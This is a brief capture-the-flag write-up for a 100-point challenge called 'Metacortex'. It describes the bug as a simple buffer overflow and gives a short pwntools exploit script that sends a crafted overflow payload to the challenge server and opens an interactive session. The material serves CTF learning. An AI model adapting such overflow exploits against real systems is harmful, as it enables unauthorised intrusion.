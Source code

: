 ### Metacortex (100 Points)

> This company is one of the top software companies in the world, because every single employee knows that they are part of a whole. Thus, if an employee has a problem, the company has a problem.
>
> [attachment](metacortex-72ec7dee20d0b191fe14dc2480bd3f43)

Just simple BOF.

#### exp script

``` python
from pwn import *
context.log_level='debug'
payload = p32(0x2333)+'\x00'*80+p64(0x3)

#p = process('./metacortex-72ec7dee20d0b191fe14dc2480bd3f43')
p = remote('chal.ctf.b01lers.com',1014)
#gdb.attach(p)
p.sendline(payload)

p.interactive()
```

